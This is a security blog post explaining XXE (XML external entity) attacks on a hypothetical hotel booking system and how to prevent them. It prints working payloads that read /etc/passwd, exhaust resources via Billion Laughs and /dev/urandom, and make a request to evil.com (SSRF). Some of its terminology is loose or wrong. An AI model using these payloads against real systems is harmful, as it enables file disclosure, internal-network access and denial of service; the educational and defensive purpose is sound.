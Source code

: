 ```yaml
---
title: XXE Attacks
contributor: Gert J. Oberholzer
avatar: kobus-oberholzer.png
description: A summary on external entity injections, how they are used in an attack and how to prevent most of them
date: 2022-10-13
tags: [xml, security]
id: xxe-attacks
relatedPost: react-xss
---
```



In recent years, there has been an increase in the number of XXE (external entity attacks) injections. These attacks take advantage of vulnerabilities in XML processing to inject malicious code into a system. This can allow attackers to gain access to sensitive data or even take control of the system altogether. Fortunately, there are steps you can take to prevent XXE attacks. In this blog post, we will explore some of the most common methods used by attackers and how you can protect your systems against them.

## Table of Contents
<!-- toc -->

## What is an XXE attack?

An XXE attack is a type of attack that exploits vulnerabilities in an XML parser to deliver an XXE payload. This can allow attackers to read local files, send HTTP requests to internal resources, and even perform denial-of-service attacks.

To prevent XXE attacks, it's important to keep your software up to date and to use a **web application firewall** (WAF) to block malicious requests.

## How do XXE attacks work?

An XXE attack occurs when an attacker exploits a vulnerability in an weakly configured XML parser to gain access to sensitive information. The attacker sends specially crafted XML data to the vulnerable parser, which then processes the data and returns the results to the attacker. This can be used to view files on the server, execute commands, or even gain access to other servers on the network.

XXE attacks are often possible due to poor input validation. For example, if an application allows users to upload XML files, but does not properly validate the contents of those files, an attacker could upload a malicious file that contains code that would be executed by the XML parser.

To prevent XXE attacks, it is important to properly validate all input, especially input that comes from untrusted sources. All XML parsers should be configured to disable the processing of external entities by default. If external entities must be processed for some reason, strict validation should be used to ensure that only trusted entities are processed.

## How XXE attacks are used

To demonstrate the different ways XXR attacks work, let's set a scene. A booking system for a hotel is being attacked and we need to evaluate all potential attack vectors.

### Retrieve local files

A very basic way XXE payloads can be used is to retrieve files from the server. Let's say the original usage of XML file was to retrieve information on a booking made by a client like so:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <bookingId>23</bookingId>
    ```

We can adjust this XML data to retrieve files we specify and let it return the results.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
       <!ELEMENT foo ANY>
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
    ]>
    <bookingId>&xxe;</bookingId>
    ```

This is considered an **in-band** attack as the vector of attack is clear and the information retrieved is in the form of a response. Another type of attack is called an **out-of-band** attack like a blind attack.

### Blind attack

Blind attacks are when there are some forms of security measures in place that would prevent you from directly requesting privileged information. There is however still a potential attack surface that is just more hidden, by doing a bind attack you may potentially stumble upon a server response in the shape of an error message that reveals more information than intended, an example would be if the parser's error response is disclosing local files which the attacker can choose to infiltrate.

{% review_screen "review_1.png" "https://websecurity-academy.com" %}

### Denial of service attack

If the attention is not necessary to retrieve data but to deny service, maybe a popular band is performing and the bad actor wants to have a peaceful stay by preventing other potential guests from booking.

This would be the ideal scenario to dispatch a DOS attack. One such attack type is called A Billion Laughs attack.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE lolz [
       <!ENTITY lol "lol">
       <!ELEMENT lolz (#PCDATA)>
       <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
       <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
       <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
       <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
       <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
       <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
       <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
       <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
       <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
    ```

Now the reason for the name has become prevalent, let's discuss how it works. First, lol9 will be called which in turn calls lol8 that calls lol7... and this will continue turning kb's of data into GB's within moments.

Another popular way of achieving the same outcome can be done using remote code execution. Asuming the server operates on Linux, an endless recursive file can be called as follows.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "file:///dev/urandom">
    ]>
    <foo>&xxe;</foo>
    ```

The goal of this type of attack is to use all server resources possibly impacting application availability

### Server-side request forgery (SSRF)

Server-side request forgery happens when the payload appears to be from internal systems, which grants the attacker access to local resources as if authorized.

    ```xml
    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY>
        <!ENTITY xxe SYSTEM "http://evil.com/">
    ]>
    <foo>&xxe;</foo>
    ```

This type of attack can be used as the door to a multitude of other attacks and exploits, such as remote code execution, DOS attacks, or just simply gaining access to privileged information, all while leaving a backdoor for future attacks.

{% img "ssrf-attack.png" "SSRF XXE Attack" "lazy" %}

## How to prevent XXE attacks

XXE attacks exploit vulnerabilities in the way that XML parsers process input. An attacker can supply malicious input to an XML parser in order to cause it to execute unintended actions or access sensitive information.

There are several methods that can be used to prevent XXE vulnerabilities. First, make sure that your XML parser is configured to disable external entity processing. This will ensure that the parser does not automatically resolve external references when processing input.

Next, use positive security controls such as input validation and output encoding. Input validation ensures that all input supplied to the XML parser is well-formed and does not contain any malicious code. Output encoding ensures that any data retrieved from the XML document is properly escaped so that the browser cannot execute it.

Finally, keep your software up to date. Newer versions of XML parsers typically include fixes for XXE vulnerabilities as they are discovered. By keeping your software up to date, you can help to protect yourself against these types of attacks.

## What to do if you're a victim of an XXE attack

If you're a victim of an XXE attack, you should first report the incident to your organization's security team. They'll be able to investigate the attack and take steps to prevent it from happening again.

You should also change any passwords that may have been compromised in the attack. Be sure to use strong, unique passwords for all of your accounts. And finally, stay vigilant for any suspicious activity on your accounts or devices.

## Conclusion

XXE attacks are a serious security threat, but they can be prevented with the right precautions. Be sure to disable external entity parsing in your XML parser, and use a whitelist approach when processing untrusted XML input. With these measures in place, you can rest assured that your applications will be safe.

If any of these topics interests you and you would like to prevent other potential vulnerabilities like this, we offer a complete course on developing with security matters in mind at [websecurity-academy](https://websecurity-academy.com/).
